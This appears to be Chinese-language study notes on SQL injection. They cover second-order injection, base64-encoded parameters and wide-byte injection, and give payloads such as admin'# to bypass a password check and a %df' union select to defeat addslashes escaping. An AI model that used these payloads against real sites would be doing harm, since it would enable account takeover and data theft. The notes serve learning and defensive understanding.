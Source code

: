 

### 二次注入

* **将攻击语句写入数据库**

  对特殊字符进行转义处理，在写入数据库时又保留原来的数据

* **引用攻击语句**

  

```mysql
# id=admin'#
# sql
UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'
# 效果 需要输入当前密码 但是已经被'#'注释掉了，因此可以绕过密码验证直接修改admin的密码
UPDATE users SET PASSWORD='[anything]' where username='admin'#' and password='[nothing]'
```

### mysql加解密注入

* 传参可能会进行base64、md5等加密操作
* 我们传参也可以通过base64等编码注入攻击参数

```
# payload先进行加密，再注入
```

### 宽字节注入

* 传入的单引号被转义('\\')（防止注入
* addslashes()
* php中的magic_quotes_gpc

**字节覆盖**

* 英文字母1个字节

  \ ~> %5c

  ' ~> %27

* 希腊字母2个字节

  β的url编码为%df，使用它将'\\'覆盖

* 中文字符3个字节

  %df%5c是一个中文字符

```mysql
# 在普通注入的'前加了反斜杠\
# payload ---> sql报错
?id=1' ---> select * from users where id='1\''
# 在'前加%df，由于%df%27是一个中文字符
# payload ---> url ---> sql
?id=1%df' ---> ?id=1%df%5c%27 ---> where id='連''
# payload 
?id=-1%df' union select 1,database(),user()--+
```
